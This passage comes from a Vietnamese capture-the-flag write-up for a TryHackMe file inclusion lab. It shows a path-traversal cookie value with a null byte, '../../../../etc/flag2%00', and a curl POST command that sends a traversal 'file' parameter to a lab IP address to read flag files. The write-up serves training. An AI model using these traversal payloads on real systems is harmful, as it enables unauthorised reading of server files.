 
=> Có thể truy cập vào trang admin

=> Tiếp tục thư thay đổi cookie thành ***../../../../etc/flag2%00***:

![img](https://github.com/DucThinh47/TryHackMe/blob/main/Web_Fundamental/Introduction_to_Web_Hacking/images/image82.png?raw=true)

***Challenge 3***

![img](https://github.com/DucThinh47/TryHackMe/blob/main/Web_Fundamental/Introduction_to_Web_Hacking/images/image83.png?raw=true)

Thử sử dụng ***curl*** gửi POST request: 

***curl -X POST http://10.10.212.124/challenges/chall3.php -d 'method=POST&file=../../../../etc/flag3%00' --output -***

Thay đổi method thành POST vì chall3 này bắt nhập thẳng vào File Name field.

![img](https://github.com/DucThinh47/TryHackMe/blob/main/Web_Fundamental/Introduction_to_Web_Hacking/images/image84.png?raw=true)
